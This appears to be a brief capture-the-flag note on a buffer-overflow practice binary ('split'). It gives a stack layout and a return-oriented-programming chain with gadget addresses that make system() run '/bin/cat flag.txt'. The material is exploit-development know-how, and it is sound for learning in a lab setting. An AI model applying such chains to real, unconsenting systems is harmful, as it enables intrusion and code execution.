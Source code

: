 # Split

useful function is at 0x00400742
system call is that plus 9, aka 0x0040074b

do rop gadget before jumping here to load "/bin/cat flag.txt" (at 0x00601060) into edi

pwnme:

|-------0x8-------|  -   ret addr
|-------0x8-------|  -   RBP
|-------0x8-------|  -
|-------0x8-------|  |   local buffer
|-------0x8-------|  |
|-------0x8-------|  -


User input is 0x60 max

ROP chain:

|-------0x8-------|  -   system call at 0x0040074b
|-------0x8-------|  -   what will be in edi: 0x00601060 "/bin/cat flag.txt"
|-------0x8-------|  -   ret addr = 0x00000000004007c3: pop rdi; ret;
|-------0x8-------|  -   !!!DELETEstack alignment: 0x000000000040053e: ret;
|-------0x8-------|  -   FILLER (but we no longer have RBP)
|-------0x8-------|  -
|-------0x8-------|  |   FILLER
|-------0x8-------|  |
|-------0x8-------|  -
